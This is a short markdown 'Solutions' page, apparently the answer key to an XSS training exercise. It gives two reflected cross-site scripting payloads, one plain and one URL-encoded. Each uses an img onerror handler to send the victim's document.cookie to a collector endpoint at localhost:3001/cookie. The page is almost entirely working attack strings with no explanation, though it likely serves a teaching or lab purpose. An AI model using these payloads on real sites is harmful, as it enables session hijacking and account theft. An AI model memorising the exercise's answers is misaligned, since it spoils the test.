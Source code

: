 
# Solutions
1. ```http://localhost:3000/?q=<img src=x onerror=this.src='http://localhost:3001/cookie?data='+document.cookie;>```

2. `%3Cimg%20src%3Dx%20onerror%3D%22var%20img%20%3D%20document%2EcreateElement%28%27img%27%29%3B%20img%2Esrc%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fcookie%3Fdata%3D%27%20%2B%20document%2Ecookie%3B%22%3E
`
